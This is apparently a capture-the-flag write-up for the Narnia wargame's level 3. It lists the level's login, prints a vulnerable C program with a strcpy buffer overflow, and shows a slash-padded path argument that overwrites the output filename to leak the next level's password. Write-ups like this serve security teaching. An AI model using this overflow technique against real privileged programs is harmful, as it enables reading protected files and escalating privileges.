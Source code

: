 login as `narnia3:2xszzNl6uG`

```
narnia3@gibson:/narnia$ cat narnia3.c
```

```cpp
/*
   This program is free software; you can redistribute it and/or modify
   it under the terms of the GNU General Public License as published by
   the Free Software Foundation; either version 2 of the License, or
   (at your option) any later version.

   This program is distributed in the hope that it will be useful,
   but WITHOUT ANY WARRANTY; without even the implied warranty of
   MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
   GNU General Public License for more details.

   You should have received a copy of the GNU General Public License
   along with this program; if not, write to the Free Software
   Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/

#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){

    int  ifd,  ofd;
    char ofile[16] = "/dev/null";
    char ifile[32];
    char buf[32];

    if(argc != 2){
        printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
        exit(-1);
    }

    /* open files */
    strcpy(ifile, argv[1]);
    if((ofd = open(ofile,O_RDWR)) < 0 ){
        printf("error opening %s\n", ofile);
        exit(-1);
    }
    if((ifd = open(ifile, O_RDONLY)) < 0 ){
        printf("error opening %s\n", ifile);
        exit(-1);
    }

    /* copy from file1 to file2 */
    read(ifd, buf, sizeof(buf)-1);
    write(ofd,buf, sizeof(buf)-1);
    printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);

    /* close 'em */
    close(ifd);
    close(ofd);

    exit(1);
}
```

buffer overflow it seems... we have control over `ifile`, and by extension `ofile`.

to overwrite into `ofile`, our payload has to be at least 32 bytes in size, and must not contain any null byte (or gets truncated by strcpy); any byte from index 32 on is written into ofile.

in short, our argument has to point to our path `/etc/narnia_pass/narnia4`, and sliced from the 32th character is our output file (that we can read).

i made a tmp dir for this
```sh
narnia3@gibson:/tmp/cxyz$ /narnia/narnia3 /etc/////////narnia_pass//narnia4
copied contents of /etc/////////narnia_pass//narnia4 to a safer place... (4)
narnia3@gibson:/tmp/cxyz$ cat 4
iqNWNk173q
����pu��p��narnia3@gibson:/tmp/cxyz$
```